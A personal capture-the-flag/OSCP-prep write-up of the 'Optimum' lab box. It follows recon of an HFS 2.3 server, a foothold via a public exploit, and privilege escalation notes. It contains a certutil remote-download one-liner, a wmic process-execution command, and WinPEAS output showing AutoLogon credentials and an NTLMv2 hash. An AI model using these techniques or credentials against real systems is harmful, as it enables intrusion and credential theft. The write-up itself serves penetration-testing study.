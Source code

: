 Name: Optimum
Date:  26/10/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- wesng might just be a privesc rabbit hole of doom

## Recon

![ping](Screenshots/ping.png)

Firstly reviewing nmap it found HFS 2.3 then quick `searchsploit HFS 2.3` found the below
![](nmaptosearchsploit.png)

## Exploit && Foothold

With some minor configurations the outcome of this script as show below, also it is not slow just requires an press of the  `[RETURN/ENTER]` key to drop into the shell
![](foothold.png)

The kostas user has no token PrivEscs

![900](kostas.png)
      
## PrivEsc

![](tasklistsvcs.png)

[[Optimum-Systeminfo]]

Trusty LOLBAS
```powershell
certutil -urlcache -split -f http://
```

WinPEAS found:
![1000](itsrightthere.png)

![](icaclshfsexe.png)

![](addkostas.png)
But it failed. Returning to this box. This shell is awesome, I cant execute anything. But by the power of red teaming off the land! Use wmic:

```shell-session
wmic.exe process call create C:\users\kostas\desktop
```

![](powerofwmic.png)

```
    Some AutoLogon credentials were found
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*

kostas::OPTIMUM:1122334455667788:3b3d8bac1f1ab5d127d918b5b40bd363:0101000000000000137b0de881f2d8012d0cb1d6220e22e6000000000800300030000000000000000000000000200000f4b900b0ef6cbf93c4855021fbc634aa7ef004d983943a7377c12abf28167baf0a00100000000000000000000000000000000000090000000000000000000000
```

![](betterwinpeas1.png)

![](vmwareisddangerous.png)